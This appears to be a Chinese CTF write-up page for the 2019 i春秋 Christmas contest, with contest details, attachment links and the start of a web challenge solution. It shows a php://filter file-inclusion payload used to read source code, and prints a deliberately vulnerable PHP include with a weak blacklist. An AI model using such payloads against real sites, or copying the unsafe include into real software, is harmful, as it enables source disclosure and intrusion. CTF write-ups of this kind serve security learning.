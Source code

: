## 比赛信息

> i春秋 欢乐圣诞赛
> 项目名称：CTF答题夺旗赛（第四季）
> 项目期限：2019.12.24 10:00:00-2019.12.28 23:59:59
> 每日10:00更新题目

<br/>

## Writeup

> [2019 i春秋 欢乐圣诞赛 做题笔记](https://www.jianshu.com/p/97ca00e255a7)

<br/>

## 附件链接

链接：https://pan.baidu.com/s/1F_Xh3i5ZgAJ1YilKJrAlSw 提取码：hdxw

链接：https://share.weiyun.com/vMuM2NI9 密码：j0fqbb

链接：https://t1m.lanzous.com/b0aet0h2d 密码:hdxw

<br/>

## 题目信息

### Web

#### nani(200)
> http://120.55.43.255:24719/

查看网页源码
```html
<html>
    <title>Where</title>
    
<a href="./index.php?file=show.php"></a></html>
```
打开a标签跳转的连接，返回“user.php”。由连接参数file测试文件包含，使用“/index.php?file=php://filter/read=convert.base64-encode/resource=index.php”分别得到index.php、show.php、user.php源码如下
```php
# index.php
<html>
    <title>Where</title>
    
<?php
    error_reporting(0);
    if(!$_GET[file]){echo '<a href="./index.php?file=show.php"></a>';}
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file,"tp")||stristr($file,"input")||stristr($file,"data")){
        echo "NANI?";
        exit();
    }
    include($file);
?>
</html>
```
```php
# show.php
<?php
	echo "user.php";
```
```php
# user.php
<?php
```